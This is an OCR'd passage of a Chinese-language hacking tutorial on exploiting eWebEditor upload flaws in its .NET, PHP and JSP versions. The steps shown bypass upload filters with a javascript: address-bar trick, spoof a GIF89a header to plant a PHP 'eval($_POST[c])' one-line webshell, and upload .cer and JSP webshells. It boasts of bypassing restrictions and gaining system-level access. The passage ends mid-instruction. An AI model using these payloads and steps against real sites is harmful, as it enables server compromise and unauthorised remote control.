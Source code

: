 利用方法：添好本地的cer的Shell文件。在浏揽器输入javascript:lbtnUpload.click();就能得到shell

嘿嘿....绕过了限制......成功的上传了ASPX文件....

文件默认的上传后保存的地址是eWebEditorNet/UploadFile/现在来看看是否上传成功.....

(三)PHP版

关于eWebEditor 漏洞php版本的和asp的一样。有目录浏览。和编辑扩展名。重点在于虽然支持了php格式但上传还是上传不了。不过

利用织梦的gif89a漏洞倒可以实现php一句话上传，然后再上传webshell。

备注：织梦的gif89a漏洞，准确来说应该是DEDECMS中所用的php版的FCKeditor存在上传漏洞，gif89a文件头欺骗。DEDECMS中在上传

拖上没有对picSubmit进行任何处理。但是却不能直接上传php马。因为会识别。使用修改过的php小马。

gif89a

&lt;?php

phpinfo();

?&gt;

RFI

gif89a

&lt;?php

eval($_POST[c]);

?&gt;

利用gif89a进行了欺骗。现在上传就可以成功了.然后有php一句话客户端连接.

(四)JSP版

上传漏洞

影响版本：漏洞存在于ewebeditor jsp版 1.4以下版本，漏洞有两个版本。

原理：第一个是使用savefile.jsp来进行文件上传操作的，从代码中可以看出，程序并没做任何上传过滤，这样我们就可以直接上传

一个JSPShell了。另一个版本可能是被人修改过，把代码转成了servlet，不能看到代码，但是利用方法却大同小异。

利用方法：我们先找一个1.4版本以下的ewebeditor JSP上传页面，选择好一个JSPShell。这个ewebeditor是没有提交按钮的，所以这

里涉及到一个小技巧，就是在上传的对话框中敲下回车，大约过半分钟，就可以查看网页的源文件来寻找我们的Webshell了。

这个JSP和PHP一样,如果系统权限没有特意去设置的话,默认我们得到webshell是system的权限,那么...^_^

二:ewebeditornet 漏洞利用

默认上传地址:

<a>www.test.com/ewebeditornet/upload.aspx</a>
可以直接上传一个cer的木马

在无法上传的情况下

可以地址栏构造以下代码: javascript:lbtnUpload.click();

然后查看源代码:
